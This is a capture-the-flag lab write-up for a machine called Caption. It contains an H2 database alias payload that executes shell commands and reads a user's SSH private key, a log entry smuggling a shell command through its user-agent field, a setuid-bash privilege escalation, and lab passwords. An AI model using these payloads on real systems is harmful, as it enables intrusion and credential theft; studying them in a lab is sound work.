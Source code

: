 1, Recon
port scan 
	22/tcp ssh
	80/tcp http `redirect to http://caption.htb`
	8080/tcp http-proxy
By enumerate the web-contents, we find something interesting:
for port 80, there is only the `Caption Portal Login` page, but we don't have any credit.
for port 8080, we find a path `/root` we can find its role in `GitBucket`, but we could not find anything from that.
![](images/Pasted%20image%2020240915034953.png)

Besides that ,we still don't have any credit to login.

So crazy, when I try to use the default credit `root:root`, we successfully login.
Then we can find two repositories `root/Logservice` and `root/Caption-Portal` and we need to enumerate all the configs and find some useful credit.

I guess there would be another sub-domain for the service `Logservice`.
Very sad, there is nothing useful.

From `User management`, we find the version 
```
|GITBUCKET_VERSION|4.40.0|
|GITBUCKET_HOME|/home/margo/.gitbucket|
|DATABASE_URL|jdbc:h2:/home/margo/.gitbucket/data;MVCC=true<br><br>GitBucket is using the embedded H2 database. It's recommended that you [configure GitBucket to use an external database](https://github.com/gitbucket/gitbucket/wiki/External-database-configuration) if you're running GitBucket in a production environment.|
```
And we find another interesting page `http://caption.htb:8080/admin/dbviewer`
We can check the database from this page.
```
|USER_NAME|MAIL_ADDRESS|PASSWORD|ADMINISTRATOR|URL|REGISTERED_DATE|UPDATED_DATE|LAST_LOGIN_DATE|IMAGE|GROUP_ACCOUNT|FULL_NAME|REMOVED|DESCRIPTION|
|---|---|---|---|---|---|---|---|---|---|---|---|---|
|root|root@caption.htb|$pbkdf2-sha256$100000$O5zdxA5m9ZtnSSMnUfXK4zw9j/8WgKxo9ItXxVIPw3s=$xUd/Zorr75r/yWR9IXkW7TJlLXuEH+3U1uMAm37cBMk=|true|http://caption.htb|2024-03-08 03:01:05.0|2024-03-08 04:16:07.215|2024-09-15 07:54:33.255|<NULL>|false|Administrator|false|clob1: 'Caption Networks'|


|gitbucket-core|4.40.0|
|gist|4.23.0|
|emoji|4.6.0|
|notifications|1.11.0|
|pages|1.10.0|
```

So I guess it would be our credit hash
`$pbkdf2-sha256$100000$O5zdxA5m9ZtnSSMnUfXK4zw9j/8WgKxo9ItXxVIPw3s=$xUd/Zorr75r/yWR9IXkW7TJlLXuEH+3U1uMAm37cBMk=`
Or it would be just `root:root`

But come to the `DATABASE_URL`, we find h2 database.This kind of database would be always exploited easily by sql injections.

Then we can create the valid payload to help us to RCE
(Good resource: `https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database/') 

```
CREATE ALIAS REVEXEC AS $$ 
String shellexec(String cmd) throws java.io.IOException { 
    java.util.Scanner s = new java.util.Scanner(
        Runtime.getRuntime().exec(cmd).getInputStream()
    ).useDelimiter("\\A"); 
    return s.hasNext() ? s.next() : ""; 
} 
$$;

CALL REVEXEC('cat /home/margo/.ssh/id_ecdsa ');

Then we can get our id_rsa (ssh credit).
```

2, shell as root
Firstly we need to check the net state(verify the applications in gitbucket)
```
netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:9090          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      1310/java           
tcp        0      0 127.0.0.1:6082          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6081          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3923          0.0.0.0:*               LISTEN      1311/python3        
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      1312/python3        
tcp6       0      0 :::22                   :::*                    LISTEN      -  
```

`127.0.0.1:8000` is the `[Caption-Portal]` application
`127.0.0.1:9090` is the `[Logservice]` application

So if we want to check it, we need to Port forwarding
`ssh -i id_rsa margo@10.10.11.33 -L 9090:localhost:9090`

I forget this is a log analysis service, and don't have the web pages.

Let's continue checking the `app/app.py` and we found the credit of margo and admin
```
username == 'margo' and password == 'vFr&cS2#0!'
username == 'admin' and password == 'cFgjE@0%l0'
```
Although we use them to login to the service of port 80, but there is still nothing for us and we can not check `sudo -l` or switch to another user `ruth`

The way to root is using thrift client and leverage the LogService rce:
(https://thrift.apache.org/tutorial/py.html)
Steps:
1.Setup port forwarding:
`ssh -i id_ecdsa -L 9090:127.0.0.1:9090 margo@caption.htb`

2.Now on the remote machine:
Create a file called: `/tmp/malicious.log`
Edit file to include: 
`127.0.0.1 "user-agent":"'; /bin/bash /tmp/payload.sh #"`

Create another file: `/tmp/payload.sh`
Edit file to include: `chmod +s /bin/bash`

3.Switch to local machine:
create a file called: `log_service.thrift`
Edit file to include:
```
namespace go log_service

service LogService {
    string ReadLogFile(1: string filePath)
}
```

Make sure thrift is installed and run: `thrift -r --gen py log_service.thrift`

`cd gen-py`
create file called: `client.py`

edit file with:

```
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService  # Import generated Thrift client code

def main():
    # Set up a transport to the server
    transport = TSocket.TSocket('localhost', 9090)

    # Buffering for performance
    transport = TTransport.TBufferedTransport(transport)

    # Using a binary protocol
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Create a client to use the service
    client = LogService.Client(protocol)

    # Open the connection
    transport.open()

    try:
        # Specify the log file path to process
        log_file_path = "/tmp/malicious.log"
       
        # Call the remote method ReadLogFile and get the result
        response = client.ReadLogFile(log_file_path)
        print("Server response:", response)
   
    except Thrift.TException as tx:
        print(f"Thrift exception: {tx}")

    # Close the transport
    transport.close()

if __name__ == '__main__':
    main()
```

4.Root shell is then via `/bin/bash -p`.